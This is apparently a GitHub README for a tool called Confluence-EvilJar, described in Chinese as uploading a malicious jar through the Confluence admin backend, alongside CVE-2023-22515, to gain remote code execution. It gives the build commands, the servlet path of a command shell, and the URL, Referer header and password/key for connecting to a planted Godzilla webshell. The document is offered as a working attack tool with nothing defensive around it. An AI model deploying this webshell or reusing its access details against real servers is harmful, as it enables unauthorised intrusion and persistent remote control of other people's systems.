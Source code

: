 
## aaaademo/Confluence-EvilJar

> 配合 CVE-2023-22515 后台上传jar包实现RCE
```bash
git clone https://github.com/aaaademo/Confluence-EvilJar
cd Confluence-EvilJar
mvn package
```

### CMDshell

```
http://confluence.local/plugins/servlet/testbin/cmServlet

```

### 哥斯拉webshell连接方式

```
http://confluence.local/plugins/servlet/testbin/gzServlet

Referer: https://www.baidu.com/

p@ssw0rd / key
```

